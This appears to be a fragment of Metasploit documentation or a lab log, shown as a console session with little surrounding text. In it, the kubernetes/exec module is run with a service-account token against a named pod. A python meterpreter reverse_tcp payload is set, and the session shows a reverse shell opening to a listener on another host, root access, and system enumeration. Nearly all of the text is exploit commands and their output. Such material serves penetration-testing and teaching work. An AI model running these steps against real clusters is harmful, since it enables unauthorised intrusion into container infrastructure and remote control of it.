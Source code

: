 id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
`

`msf
msf6 > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
`

